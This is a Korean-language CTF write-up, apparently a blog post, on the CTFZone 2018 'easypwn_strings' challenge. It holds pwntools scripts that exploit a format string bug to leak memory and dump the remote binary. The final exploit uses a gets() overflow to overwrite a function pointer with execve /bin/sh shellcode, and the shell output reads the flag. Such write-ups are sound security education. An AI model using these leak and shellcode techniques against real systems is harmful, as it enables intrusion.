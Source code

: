 ```yaml
---
layout: post
title: "[CTFZone 2018] easypwn_strings Write-up"
image: /img/ctfzone_2018.png
tags: [CTF, write-up, pwnable]
---
```


<style>
.effect {
      display: inline-block;
      box-shadow: 0px 0px 20px -5px rgba(0, 0, 0, 0.8);
}
</style>

## 요약
`pwnable` `FSB`

---
### Vuln

> nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234

```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
```
1번 메뉴를 선택하고 문자열을 입력하면 문자열의 길이가 출력되고, 3번 메뉴를 선택하고 문자열과 숫자를 입력하면 해당 문자열의 뒤에서 입력한 숫자 만큼을 잘라서 출력해준다. 2번 메뉴는 구현되어 있지 않았다.
```
You choise - 3
	Use str int
	good choise
	Set string:
%x
	Set number:
0
	Delete 0 ending symbols
	Result:
ff906700
```
3번 메뉴에서 문자열을 출력할 때 `포맷 스트링 버그 (FSB)` 가 발생한다.
<br><br><br>

### Solve
포맷 스트링 버그를 이용해서 스택에 있는 값들을 출력한다.
```python
from pwn import *

for j in range(0, 20):
        r = remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        test = ''
        for i in range(j*20,j*20+20):
                test += '%%%d$p.' % i

        print test
        r.sendline(test)
        r.recvuntil(':')
        r.sendline('0')
        r.recvuntil(':')
        r.recvuntil('\n')
        d = r.recvuntil('\n')
        print d
```
```
[+] Opening connection to pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one on port 1234: Done
%200$p.%201$p.%202$p.%203$p.%204$p.%205$p.%206$p.%207$p.%208$p.%209$p.%210$p.%211$p.%212$p.%213$p.%214$p.%215$p.%216$p.%217$p.%218$p.%219$p.
0x80496d4.0xf77b7000.0xffeac818.0x8048e07.0x1.0xffeac8c4.0x3.0x33.0xf77b73dc.0xffeac830.(nil).0xf761d637.0xf77b7000.0xf77b7000.(nil).0xf761d637.0x1.0xffeac8c4.0xffeac8cc.(nil).
```
출력 된 값들을 살펴보면 0x80496d4 나 0x8048e07 과 같이 코드 영역의 주소로 보이는 값들을 발견할 수 있었고, 이를 토대로 <span style="color:#cf3030">0x8048000</span> 을 <span style="color:#cf3030">base address</span> 로 설정하여 바이너리 덤프를 시도했다.
<br>
그 결과는 다음과 같다.
```
0000000: 0045 4c46 0101 0100 0000 0000 0000 0000  .ELF............
0000010: 0200 0300 0100 0000 2086 0408 3400 0000  ........ ...4...
0000020: 6c3b 0000 0000 0000 3400 2000 0700 2800  l;......4. ...(.
0000030: 2000 1d00 0600 0000 3400 0000 3480 0408   .......4...4...
0000040: 3480 0408 e000 0000 e000 0000 0500 0000  4...............
0000050: 0400 0000 0300 0000 1401 0000 1481 0408  ................
...
```
ELF 시그니쳐로 보이는 `00(7F)45 4c46` 로 시작된다. 이렇게 쭉 덤프를 뜨면 되는데 중간에 null 바이트가 많아서 너무 오래걸린다. ELF 헤더 중 0x18 오프셋 부분을 보면 <span style="color:#cf3030">0x08048620</span> 이라는 값이 쓰여있는데 이 값이 <span style="color:#cf3030">엔트리 포인트</span>의 메모리 주소이다.<br>
이 주소를 시작으로 코드 섹션만 덤프 떠올 수 있다.
```python
from pwn import *

def conn():
        return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

def dump(adr,frmt='p'):
        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        leak_part = "|%19${}|".format(frmt)
        out = leak_part.ljust(4*10,"A")+"EOF_"+p32(adr)
        r.sendline(out)
        r.sendline('0')
        r.recvuntil('Result:')
        return r.recvuntil("|A")[:-2].split("|")[1]

        start_addr = 0x8048620

        while True:
                try:
                        fd = open("dumped_file","a")
                        r = conn()
                        data = dump(start_addr,'s')
                        print "|0x%08x|%s|" % (start_addr,data)
                        if data == "(null)" or data == "":
                                fd.write("\x00")
                                start_addr += 1
                        else:
                                fd.write(data+"\x00")
                                start_addr += len(data)+1
                        fd.close()
                except:
                        print "[!] execption"
                        break
```
<br>

<center><img src="/img/ctfzone_easypwn_1.PNG" class="effect"></center>

덤프 뜬 바이너리를 IDA로 열어보면 `1, 2, 3` 메뉴 외에 `X, T, S` 라는 메뉴가 있는 것을 확인 할 수 있다. 하나씩 사용해보면 되는데 그 중에서도 `T` 메뉴를 사용하면 바이너리와 라이브러리를 다운 받을 수 있는 링크를 알려준다.. 개꿀
```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
	T
You choise - T
	Cheat ^^
	Are you surprised?? (y or n)
y
https://ctf.bi.zone/files/babypwn
https://ctf.bi.zone/files/babylibc
```
<br>

이제 IDA로 다시 분석!

<img src="/img/ctfzone_easypwn_2.PNG" class="effect">

처음엔 `S` 를 수상하게 보고 포맷 스트링 버그를 이용해서 0x80493E0 의 값을 조작하려고 했지만 메뉴 하나를 실행시키면 프로그램이 끝나는 구조라서 그럴 수 없었다. 대신 `X` 혹은 `T` 메뉴를 사용 했을 시 `gets()` 함수를 통해서 `overflow` 가 발생한다. 0x80492E0 에 값을 쓸 수 있는데, 그 뒤쪽에 있는 0x80493E0 이 <span style="color:#cf3030">함수 포인터</span>로 사용된다. 0x80492E0 에 쉘 코드를 올리고 overflow 를 발생시켜 0x80493E0 을 쉘 코드의 주소로 바꿔주면 끝! (rwx 권한이 있었다)
<br>

```python
from pwn import *

def conn():
	return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

r = conn()
r.sendline("T")
r.sendline(("y"+shellcode).ljust(256,"\x90")+p32(0x80492e0+1))

r.interactive()

```
```
Let's choose string operation!
    1. StrLen
    2. SubStrRemove
    3. StrRemoveLastSymbols
 You choise - T
    Cheat ^^
    Are you surprised?? (y or n)
$ ls
flag.txt
main.c
strings
strings.sh
$ cat flag.txt
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
```
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
<br>

### Ref
https://www.youtube.com/watch?v=XuzuFUGuQv0
https://ko.wikipedia.org/wiki/ELF_%ED%8C%8C%EC%9D%BC_%ED%98%95%EC%8B%9D

